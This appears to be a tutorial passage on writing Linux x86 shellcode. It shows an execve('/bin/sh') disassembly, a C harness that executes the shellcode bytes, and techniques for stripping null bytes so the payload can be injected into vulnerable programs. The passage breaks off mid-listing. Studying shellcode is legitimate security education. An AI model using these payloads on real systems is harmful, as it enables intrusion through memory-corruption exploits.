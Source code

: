 objdump listing:
```bash
dirty-low-level-shellcode: file format elf32-i386

Disassembly of section .text:

08049000 <__bss_start-0x1000>:
 8049000:	68 00 2f 73 68       	push   $0x68732f00
 8049005:	68 2f 62 69 6e       	push   $0x6e69622f
 804900a:	89 e3                	mov    %esp,%ebx
 804900c:	53                   	push   %ebx
 804900d:	89 e1                	mov    %esp,%ecx
 804900f:	b8 0b 00 00 00       	mov    $0xb,%eax
 8049014:	cd 80                	int    $0x80
```

You got the shellcode. Next, you need to test it.
```C
#include <stdio.h>
#include <string.h>

unsigned char shellcode[] = "\x68\x00\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x53\x89\xe1\xb8\x0b\x00\x00\x00\xcd\x80";

void main() {
    printf("Shellcode length: %d\n", strlen(shellcode));
    // Declare a funcion pointer named ret
    // Then cast the shellcode pointer to the function pointer of the same size
    int (*ret)() = (int(*)())shellcode;
    // Call the function
    ret();
  }
```

If you try to compile and execute it, you will end up with a shellcode length of 1 byte, which is not the true length of the shellcode. Why? The reason is that the shellcode is dirty, not injectable. When you enter a shellcode into a vulnerable program, the program prevents you from entering the complete shellcode because it stops accepting characters when it finds a null byte.

### Clean up the assembly to make it smaller and injectable

The reason that the shellcode is not injectable is that we have `push 0x68732f00`, `mov eax, 0xb` instructions. These instructions are assembled with the null bytes. So, we need to find another way to move zero and 0xb to the EAX register.

1. If you need to fill the register with zero value just don't do `mov` instruction and do `xor` on the register.
2. If you need to place a small value in the register don't use EAX name of the register using `al` which is 8 bits size or 1 byte.
3. Replace '/bin/sh\0' string with '/bin//sh' and terminate it with null in the stack.

So, clean shellcode will be the following:
```nasm
; nasm -f elf32 clean-low-level-shellcode.asm
; ld -m elf_i386 clean-low-level-shellcode.o -o clean-low-level-shellcode

; move in eax zero to add to the end of the string to make it null-terminated
xor eax, eax
; push zero to terminate the string
push eax
; push the string '/bin//sh'
push 0x68732f2f
push 0x6e69622f
; move the first argument (/bin/sh) to ebx
mov ebx, esp
; push zero
push eax
```